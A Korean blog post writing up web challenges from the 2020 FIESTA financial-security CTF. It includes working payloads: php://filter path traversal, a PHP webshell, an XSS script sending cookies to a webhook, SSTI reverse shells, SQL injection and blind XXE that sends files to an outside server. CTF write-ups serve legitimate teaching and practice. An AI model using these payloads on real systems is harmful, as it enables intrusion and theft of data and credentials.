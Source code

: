 ```yaml
---
layout: post
title:  "2020 FIESTA(금융보안원) CTF Write up"
excerpt: "Hard life"
date:   2020-09-25
categories: [Web,ctf]
comments: true
---
```


오랜만에 CTF를 참여했다.  금융보안원에서 진행하는 [FIESTA 2020 : 금융보안 위협분석 대회]인데, 대회 랭킹으로는 3위를 취득했다.

N0Named팀에서 참가를 하였고, 팀명도 N0Named로 참가하였다. 

한 문제파일 및 url에 3가지 문제가 겹쳐있는 형식이었고, 모든 문제를 해결했는데, 웹만 wirte up을 작성하려고 한다.

![fiesta](/img/fiesta1.png)

<h3>0x0. YoUrAT
</h3>

Markdown형식으로 note에 글을 작성할 수 있다.  이를 이용해서 코드를 릭할 수 있다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd)
```

이렇게 글을 작성하여 etc/passwd 코드를 릭해오는 것을 확인했다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../flag)
```

이 페이로드로 최상위 디렉터리에서 플래그를 가져온게 1번 정답이었다.

그 다음 이를 이용하여 index.php의 코드를 릭해오고, 해석하면 write.php가 존재하는 것을 확인할 수 있다. 그런데 이 파일은 암호화 되어있어서 이를 복호화하기 위한 방법을 찾던 도중, 

```markdown
![alt](php://filter/convert.base64-encode/resource=/adm1nkyj_guard.so) 
```

이를 통해서 얻은 파일을 ida로 열어보니 암호화 코드가 있었고, 이를 이용하여 디크립트 코드를 작성했다.

```python
import base64
import re
text = """
write.php 코드
"""

check = re.findall("\$_[0-9a-z]*",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "$_"+xor2(i[2:].decode("hex"),"\x21"))

check = re.findall("\'_[0-9a-z]*\'",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "'"+xor2(i[2:-1].decode("hex"),"\x21")+"'")


check = re.findall("\"_[0-9a-z]*\"",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "\""+xor2(i[2:-1].decode("hex"),"\x21")+"\"")

check = re.findall("_[0-9a-z]*\(",text)
check.sort(reverse=True)
for i in check:
   try:
      text = text.replace(i, xor2(i[1:-1].decode("hex"),"\x21")+"(")
   except:
      pass

print text
```

이를 통하여 복호화를 진행하니 플래그가 나왔다.

```php
if ('thisisbackdoor' === 'thisisbackdoor') {
        if (file_get_contents('http://13.125.25.152/?id=' . $_SESSION['id'] . '&content=' . base64_encode($_POST['content']))) {
            $_go = 'FIESTA2020{';
            $_go .= 'wow_you_are_php_master_XD';
            $_go .= '}';
        }
    }
```

여기 플래그가 2번 플래그였다. 이후 저 링크에 들어가서 웹쉘을 이용하여 플래그를 취득했다.

```
http://13.125.25.152?id=kangsecu.php&content=<?php system($_GET['cmd']);?> 
```

를 이용하여 웹쉘을 업로드 후 

```
http://13.125.25.152/memos/kangsecu.php?cmd=/bin/sh;cd ../../../../../cat flag
```

이렇게 3번까지 해결했다.

<h3> 0x1. DarknetMarket</h3>

이 문제는 1번은 xss를 이용하여 어드민 쿠키를 취득하여 플래그를 읽는 것이었다.

```javascript
<script>document.location='https://webhook.site/cd701ca7-b14d-49dd-bc9c-5e188ed925a6/?P='+document.cookie</script>
```

이런 코드를 .phtml로 작성하고 업로드하여 진행하면 쿠키탈취가 가능하다. 이게 1번 플래그였다.

그 다음 1번에서 취득한 어드민 권한으로 접속하면 업로드 된 글들에 코멘트를 달 수 있는데, 여기서 uwsgi를 사용한 프론트는 아파치고, 백엔드는 플라스크라는게 생각나서 SSTI를 진행했다.
![ssti1](/img/ssti1.png)

를 이용하여 내부 디렉터리에 파일들을 출력하고 flag가 있길래 읽어왔다.
![ssti2](/img/ssti2.png)

이게 2번 정답이다. 3번은 여기서 SSTI를 이용하여 리버스쉘을 취득해서 nc에서 진행하였다.
![ssti3](/img/ssti3.png)

이를 이용하여 우리 서버에 리버스쉘을 연결하고 nc를 열어서 app.py코드를 확인하고 db정보를 취득했다.

그 결과 user:memo에 어드민의 글이 존재하는걸 확인해서  

```sql
mysql -u dev -p -e "select memo from DKNetM.user where memo like ‘%FIESTA%’"
```

이 페이로드를 이용하여 플래그를 출력한게 3번이었다.



<h3>0x2. Auditor</h3>

이번에는  sql인젝션 문제였다. 1번은 그냥 로그인 후  보드에서 download.php?idx= 를 넘겨주는 부분에서 타임베이스드 sql인젝션이 가능했다.  select flag from flag를 통하여 플래그를 취득했다.

2번은  1번과 마찬가지로 idx파라미터에서 union select 인젝션을 통해서 index.php코드를 릭하고 분석하여  파일이 업로드 되는 경로를 릭할 수 있었다.  그 이후 회원가입을 할 때, include 트리거를 했다.

```python
id=kcq&pw=kcq&name=kcq&email=kcq%40naver.com&phone= kcq &gender=1,1,0x2720756e696f6e2073656c65637420312c272f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f7661722f7777772f68746d6c2f66696c65732f6562646438303636383732396530616139636661343832336663313161366663393337323263323636636664616337336235623832653162383839312e6a7067272c312c3123)%23
```

여기서 업로드 된 파일은 이미 웹쉘의 형태로 다른 계정에서 업로드 해둔 것이다. 그리고 그 경로는 다음 코드를 통해서 확인할 수 있다.  

```php
function get_theme($pos){
        global $db_conn;

        if(is_login()){
            $query = "SELECT theme_idx FROM user WHERE id='{$_SESSION['id']}'";
            $result = mysqli_query($db_conn, $query);
            $row = mysqli_fetch_array($result);
            if($row){
                $_skin = $row['theme_idx'];
            }else{
                $_skin = 1;
            }
        }else{
            $_skin = 1;
        }
        $query = "SELECT * FROM theme WHERE theme_idx='{$_skin}' and position='{$pos}'";
        $result = mysqli_query($db_conn, $query);
        $row = mysqli_fetch_array($result);
        if (isset($row['path'])){
            return $row['path'];
        }
    }
```

이제 theme_idx를 조작하면 된다.  그 후 업로드 경로를 통해서 웹쉘을 실행 후 명령어를 전송하고 index.ph코드를 확인하면 2번 플래그가 존재한다. 또한 업로드한 웹쉘을 이용하여 쉘을 따고 찾다보면 3번 플래그가 나온다.



<h3>0x3. PowerSehllCode</h3>

이 문제는 3번만 웹이 이용되었다. XXE기법을 이용하여 C2서버에서 플래그를 읽는 것이다. 처음에는 그냥 XXE를 시도했는데 내가 못한건지 잘 되지 않아서 바인드XXE를 진행하였다.

내 서버에 ext.dtd파일을 아래와 같이 생성했다.

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://개인서버/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

그 후 문제 서버에 아래 페이로드를 전송하였다.

```xml
command=IRIMFxIi&sec=fiesta2020&data=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://개인서버/ext.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

그러니 index.php의 코드가 내 서버로 긁어졌다. 이를 분석하고 서버 내에 . /_readme_only_admin.php 파일에 플래그가 존재하는 것을 알아냈다. 이제 추가로 XXE를 이용하여 이를 읽어왔다.

```php
<?php
$flags = shell_exec('flags2');
if ($_SERVER['REMOTE_ADDR']!='127.0.0.1') {
echo "you are not admin!!";
} else {
echo $flags;
}
?>
```

그런데 이를 127.0.0.1에서 접속하여 실행을 해야해서 다시 ext.dtd를 수정해서 xxe를 시도했다.

```xml-dtd
<!ENTITY % file SYSTEM "http://127.0.0.1/_readme_only_admin.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://webhook.site/aa/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

이를 통해서 플래그를 취득했다.

<h3>0x4. Evidence</h3>

이 문제는 3번만 웹이 이용되었다. 암호화를 진행하는데 사용된 키를 c2서버 웹에서 받아와야 하는 문제였다.

http://15.165.143.41:9999 에 접속하면 dir들이 리스팅되는데, http://15.165.143.41:9999/webpanel/createkeys.php에 키를 요청했더니 에러가 발생하며 http://15.165.143.41:9999/webpanel/lib가 존재하는것을 알려줬다. 그 후, 

http://15.165.143.41:9999/webpanel/lib/Crypt/AES.php 에 접속하니 xml형태로 RSA키와 AES 암호문이 존재했다.


